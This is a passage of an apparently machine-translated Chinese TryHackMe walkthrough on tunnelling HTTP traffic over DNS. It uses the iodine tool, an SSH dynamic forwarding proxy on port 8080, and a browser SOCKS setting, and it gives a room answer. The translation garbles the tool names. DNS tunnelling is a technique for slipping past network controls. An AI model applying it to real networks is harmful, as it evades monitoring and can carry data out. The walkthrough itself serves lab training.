

要开始，两台机器都需要安装碘酒。如果你使用的是基于 Debian 的发行版，比如 Kali，它会在他们的 apt 仓库里。

`sudo apt install iodine`

**碘** —客户

**碘化** —服务器

在 AWS 服务器上，我们使用以下参数启动 iodined:



**端口** — 27001

**DNS 隧道服务器的 IP**—10 . 0 . 0 . 1

**子域名** — tunnel.badbadtunnel.in

现在，在我们的客户机上，我们用这些参数运行碘:



**DNS 隧道服务器的 IP**

**子域名**

如果一切都设置正确，我们现在应该已经连接到我们的 DNS 隧道服务器。我们可以试着 ping 10.0.0.1 (DNS 隧道服务器)看看是否连接上了。



**成功了！**

现在我们已经完成了一半。我们的 HTTP over DNS 还没有完全设置好。

首先，我们需要生成一个 SSH 密钥，并将 **id_rsa.pub** 的内容上传到我们的 DNS 隧道服务器的 **authorized_keys** 文件中。以下是步骤。



这是 **id_rsa.pub** 的内容


这里你可以看到我在我的 DNS 服务器上把 **id_rsa.pub** 内容添加到了 **authorized_keys** 中。这将允许我 SSH 到我的服务器。



现在我们可以使用选项-D 8080 SSH 到我们的 DNS 隧道服务器



差不多了，现在我们只需要打开浏览器(本例中是 Firefox)并更改代理设置。还有浏览器扩展，比如 FoxyProxy 或者 Proxy SwitchyOmega。

对于代理选项，我们需要选择“手动代理配置”。

将 SOCKS 主机的 IP 地址设置为“127.0.0.1”，端口号设置为“8080”。



**搞定！**

我们现在使用 HTTP over DNS…如果我们转到 myip.is，我们应该看到我们的 DNS 隧道服务器的公共 ip 地址。



什么程序用于通过 DNS 建立 HTTP 隧道？

> **答案:*碘酒***

你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)


如需更多演练，请在出发前继续关注…
…

访问我的其他演练:-

感谢您花时间阅读我的演练。
如果您觉得有帮助，请点击👏按钮👏(高达 40 倍)并分享
给有类似兴趣的人帮助！+随时欢迎反馈！